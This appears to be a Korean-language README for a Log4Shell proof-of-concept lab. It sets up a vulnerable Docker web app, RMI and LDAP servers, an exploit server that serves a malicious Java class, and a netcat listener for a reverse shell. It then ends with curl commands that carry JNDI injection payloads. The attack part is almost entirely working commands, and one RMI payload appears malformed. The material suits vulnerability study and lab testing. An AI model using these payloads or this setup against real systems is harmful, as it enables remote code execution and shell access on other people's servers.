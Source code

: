 # Log4Shell-PoC
Log4Shell PoC with RMI, LDAP

---- 

# 각 서비스에 대한 설명

|구분|위치|포트(TCP)|설명|
|:--:|:--:|:--:|:--:|
|`Vulnerable Application`|Docker 컨테이너 | 7777 | 취약한 웹 애플리케이션 서버로, Log4Shell 취약점이 발생된다.|
|`RMI Server` | Docker 컨테이너 | 1099 | Vulnerable Appliation으로 부터 RMI 요청을 전달받아, RCE 를 발생시키기 위한 페이로드를 응답한다.|
|`LDAP Server` | Docker 컨테이너 | 389 (openLDAP Server)8080 (phpLDAPadmin)|Vulnerable Appliation으로 부터 LDAP 요청을 전달받아, 악성 Java 객체를 다운로드 받도록 javaCodeBase 속성 값에 Exploit Server 주소 값을 전달한다.|
|`Exploit Server` | 호스트 | 8888 | /Exploit.class 를 요청할 경우 RCE를 일으키는 악성 Java 객체를 반환한다.|
|`nc -lv 9999` | 호스트 | 9999 | Vulnerable Application과 리버스 방식으로 셸을 연결하기 위함|

---- 

# PoC

## 1. Vulnerable Application 셋팅 및 실행

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

## 2. RMI Server 셋팅 및 실행

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## 3. LDAP Server 셋팅 및 실행

> 악성 응답 데이터가 이미 셋팅되어 있다. 

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

2. 위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 접속한다.

## 4. Exploit Server 셋팅 및 실행

> 참고로, 악성 Java 객체가 이미 컴파일 되어 저장소에 Commit 상태이다.

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server
    ```

## 5. Exploit 수행

> Exploit은 Host에서 Vulnerable Application으로 요청을 수행한다.

### [Exploit] Log4Shell using RMI
```bash
curl localhost:7777/log -H 'msg: ${jndi://host.docker.internal:1099/Service'
```

### [Exploit] Log4Shell using LDAP
```bash
curl localhost:7777/log -H 'msg: ${jndi:ldap://host.docker.internal:389/cn=payload,ou=payloads,dc=example,dc=com}'
```